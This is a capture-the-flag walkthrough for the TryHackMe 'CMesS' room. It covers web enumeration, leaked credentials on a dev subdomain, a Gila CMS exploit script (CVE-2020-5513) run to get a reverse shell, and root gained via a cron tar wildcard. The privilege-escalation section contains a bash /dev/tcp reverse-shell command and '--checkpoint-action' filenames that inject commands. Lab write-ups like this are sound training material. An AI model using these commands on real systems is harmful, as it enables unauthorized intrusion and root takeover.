 ### THM - CMesS

Link to the room: [CMesS](https://tryhackme.com/room/cmess)

Difficulty: Medium(Should be easy)

#### Let's get start

After adding ```{IP} cmess.thm``` to our hosts file, we can start to enumerate the website. Since we know from the box description that this's a Gila CMS box.

![home_page](img/home_page.png)

After doing some basic enum on the page, nothing seems out of ordinary. Let's fuzz the page with ffuf.

```ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cmess.thm/FUZZ -fs 4078 -ic -c```

![ffuf1](img/ffuf1.png)

We found some interesting directories and ```/admin``` is the login page. However, we still haven't found anything useful. Let's run nmap and fuzz for subdomains.

```sudo nmap -sS -vv -Pn cmess.thm```

```ffuf -u http://cmess.thm -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.cmess.thm' -fw 522 -ic```

![nmap1](img/nmap1.png)

![ffuf2](img/ffuf2.png)

We found a subdomain ```dev.cmess.thm```. Let's check it out.

![subdomain](img/subdomain.png)

Great! We found a password and a username. Let's try to login to the admin page.

![admin_page](img/admin_page.png)

At this point, our posibility is endless. We know that this is a Gila CMS version 1.10.9. There are so many vulnerability for this version. 

https://infosecdb.wordpress.com/2020/01/05/gilacms-1-11-8-cm-deletet-lfi-local-file-inclusion-and-rce/

So here are our options:

    - We could use the python script(pwn_gila.py) that I wrote to exploit this vulnerability (CVE-2020-5513)
    - We could do it manually (CVE-2020-5513)
    - We could upload a php reverse shell and use it to get a shell
    - We could edit the php file in one of the theme files and get a shell

In my case, I'll use the python script to exploit the vulnerability. 

```python3 pwn_gila.py http://cmess.thm andre@cmess.thm {PASSWORD} {LHOST_IP} {LPORT}"```

![python_script](img/python_script.png)

Let's start a netcat listener and call the url from the script.

![shell](img/shell.png)

Great! We have out shell. Let's make it a better shell and do some enum.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

On our machine background our current shell and run (Ctrl+z) : ```stty raw -echo;fg```

After doing basic manual enum on the host, we can see a couple of interesting things. Let's use it to for privilege escalation.

![password_file](img/password_file.png)

![crontab](img/crontab.png)

#### Privilege Escalation

We can see that there is a cronjob running every 2 minutes. It is running tar command with wildcard. This is a very common privilege escalation technique. We can use this to escalate our privilege.

Let's start by switching to the user ```andre``` and get user flag.

![password_file2](img/password_file2.png)


Then to escalate our privilege, we can use these command in andre's backup folder :

```
echo "bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'" > shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
chmod 777 shell.sh
```

![home_edit](img/home_edit.png)

Let's start a netcat listener and wait for the cronjob to run.

![root_shell](img/root_shell.png)

We got root shell. Let's get the root flag.

![root_flag](img/root_flag.png)

Thank you for reading my writeup. If you have any questions, feel free to ask me.
